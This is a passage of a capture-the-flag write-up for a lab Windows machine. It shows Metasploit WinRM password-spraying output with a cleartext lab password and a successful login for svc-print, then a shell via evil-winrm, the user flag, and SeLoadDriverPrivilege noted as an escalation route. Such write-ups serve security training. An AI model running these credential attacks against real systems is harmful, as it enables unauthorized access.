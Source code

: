 ```bash
RHOSTS => 10.10.10.193                                                                                                                                                                                                                                                                                                     
msf5 auxiliary(scanner/winrm/winrm_login) > run

[-] 10.10.10.193:5985 - LOGIN FAILED: WORKSTATION\pmerton:$fab@s3Rv1ce$1 (Incorrect: )
...
[+] 10.10.10.193:5985 - Login Successful: WORKSTATION\svc-print:$fab@s3Rv1ce$1
...
```

Now we can login as `svc-print` using evil-winrm.

![user_shell](images/user_shell.png)

## User.txt

And we find the user flag in C:\Users\svc-print\Desktop

![user_flag](images/user_flag.png)

# Privilege Escalation

## Collecting and uploading the files

If we do `whoami /priv`, we see that we have the `SeLoadDriverPrivilege`

![priv](images/priv.png)
